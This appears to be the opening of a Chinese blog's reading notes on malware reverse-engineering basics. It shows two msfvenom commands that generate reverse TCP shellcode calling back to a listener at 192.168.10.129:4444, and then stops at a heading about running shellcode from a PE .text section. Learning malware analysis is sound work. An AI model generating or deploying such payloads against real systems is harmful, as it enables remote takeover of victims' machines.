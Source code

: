 ```yaml
---
title: 恶意代码逆向分析基础详解读书笔记
date: 2023-11-08 22:08:26
tags: 恶意代码
---
```


# 恶意代码逆向分析基础详解读书笔记

## 生成执行shellcode

### MsfVenom

```bash
msfvenom -p windows/peterpreter/reverse_tcp LHOST=192.168.10.129 LPORT=4444 -f c #C语言版
msfvenom -p windows/peterpreter/reverse_tcp LHOST=192.168.10.129 LPORT=4444 -f python #Python版
```

## 执行PE节中shellcode

### .text节区


